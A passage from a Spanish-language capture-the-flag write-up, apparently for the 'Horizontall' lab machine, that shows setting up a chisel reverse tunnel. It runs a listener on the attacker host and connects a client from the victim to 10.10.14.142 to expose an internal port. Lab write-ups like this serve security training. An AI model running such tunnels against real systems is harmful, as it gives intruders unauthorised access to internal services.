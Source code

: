Le damos permiso de ejecucion `chmod +x chisel` 

Bien, ahora estamos listo para hacer el Portforward, dejo dos articulos interesantes sobre esto

[Chisel Port Forward](https://www.sevenlayers.com/index.php/332-chisel-port-forward)

[Tunneling with Chisel and SSF | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

En nuestra maquina dejamos a Chisel en escucha de la siguiente forma:

`chisel server -p 8081 --reverse`

![](/assets/img/Linux/Horizontall/27.png)

En el lado de la victima (client): 

`./chisel client 10.10.14.142:8081 R:8001:127.0.0.1:8000` 

![](/assets/img/Linux/Horizontall/28.png)

Confirmamos de nuestro lado : 

![](/assets/img/Linux/Horizontall/29.png)

Bien, vamos a ver si esto funciona....
